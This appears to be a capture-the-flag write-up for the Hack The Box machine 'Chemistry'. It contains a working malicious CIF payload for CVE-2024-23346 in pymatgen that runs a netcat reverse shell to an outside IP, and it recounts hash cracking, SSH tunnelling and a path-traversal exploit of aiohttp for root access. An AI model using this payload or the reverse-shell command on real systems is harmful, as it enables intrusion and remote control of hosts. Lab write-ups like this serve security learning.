 <br><br>
**Platform : Hack The Box**
**Box : Chemistry**
**Difficulty : Easy**
**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
==`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)`==  
==`5000/tcp open upnp?`==  
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.

<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![[Pasted image 20241023002915.png]]
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> *data_Example*
> *audit_creation_date            2018-06-08*
> *_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"*
> 
> *loop*
> *parent_propagation_vector.id*
> *_parent_propagation_vector.kxkykz*
> *k1 [0 0 0]*
> 
> *_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'*
> 
> 
> *_space_group_magn.number_BNS  62.448*
> *_space_group_magn.name_BNS  "P  n'  m  a'  "*
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![[Pasted image 20241023004209.png]]

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>
![[Pasted image 20241023010333.png]]

<br><br>

![[Pasted image 20241023010740.png]]

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![[Pasted image 20241102202421.png]]
<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>
Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost
<br><br>

![[Pasted image 20241023012150.png]]
<br><br>
To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:
<br><br>
`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>
This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*
<br><br>
![[Pasted image 20241102200205.png]]
<br><br>
and this is the first result if i search it on google:
<br><br>
https://github.com/z3rObyte/CVE-2024-23334-PoC
<br><br>
It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>
![[Pasted image 20241102200634.png]]
<br><br>

And...

<br><br>
![[Pasted image 20241102201153.png]]
<br><br>
Success! We have code execution as root user!
